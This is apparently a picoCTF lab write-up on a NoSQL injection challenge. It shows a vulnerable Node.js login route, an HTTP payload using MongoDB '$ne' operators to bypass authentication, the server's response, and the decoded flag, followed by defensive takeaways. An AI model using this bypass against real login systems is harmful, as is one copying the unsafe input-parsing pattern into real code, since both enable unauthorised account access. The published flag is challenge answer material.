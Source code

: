 # 🛡️ picoCTF - NoSQL Injection Write-Up

## 📁 Challenge: No SQL Injection

We were given a `.tar.gz` file containing a Node.js web app. Let's walk through how we exploited a **NoSQL Injection vulnerability** in the login route.

---

## 📦 Step 1: Extract the Archive

We started by extracting the archive:

```bash
tar -xvzf app.tar.gz
```
---

## It revealed the following files:
~~~
app/
├── admin.html
├── index.html
├── package.json
└── server.js
~~~
---
## 🔍 Step 2: Review server.js
### The login endpoint looked like this:

```js
app.post("/login", async (req, res) => {
  const { email, password } = req.body;

  try {
    const user = await User.findOne({
      email:
        email.startsWith("{") && email.endsWith("}")
          ? JSON.parse(email)
          : email,
      password:
        password.startsWith("{") && password.endsWith("}")
          ? JSON.parse(password)
          : password,
    });

    if (user) {
      res.json({
        success: true,
        email: user.email,
        token: user.token,
        firstName: user.firstName,
        lastName: user.lastName,
      });
    } else {
      res.json({ success: false });
    }
  } catch (err) {
    res.status(500).json({ success: false, error: err.message });
  }
});
```
---
#### 🔥 Vulnerability
#### The server attempts to JSON.parse() the input if it starts with {, which opens the door to NoSQL injection by allowing us to inject MongoDB operators like $ne.
---

## 🧪 Step 3: Exploit the NoSQL Injection
### We crafted the following payload:

```PayLoad
POST /login HTTP/1.1
Host: atlas.picoctf.net:49732
Content-Length: 72
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://atlas.picoctf.net:49732
Referer: http://atlas.picoctf.net:49732/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive

{
  "email": "{ \"$ne\": null }",
  "password": "{ \"$ne\": null }"
}
```
---

### This payload translates to the following MongoDB query:

```mongodb
{
  email: { $ne: null },
  password: { $ne: null }
}
```
#### ➡️ This matches any user with non-null credentials — and logs us in without knowing the actual username or password.
---
## 📬 Step 4: Capture the Response
### We received:

```Response
{
  "success": true,
  "email": "picoplayer355@picoctf.org",
  "token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==",
  "firstName": "pico",
  "lastName": "player"
}
```

## 🔓 Step 5: Decode the Token
### We decoded the Base64 token:

```bash
echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==" | base64 -d
```

```Flag
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uU6pasql_injection_784e40e8}
```

---

## 🧾 Conclusion

This challenge highlights a common and dangerous security flaw in web applications using MongoDB — **NoSQL injection**. By exploiting improper input handling and dynamic query construction, we were able to bypass authentication and retrieve sensitive user information, including a Base64-encoded flag.

### 🛠 Key Takeaways:
- Never blindly parse user input as JSON.
- Always validate and sanitize input data.
- Use strict schemas and query constraints when interacting with databases.

Understanding these vulnerabilities is crucial for securing modern web applications and defending against real-world attacks.

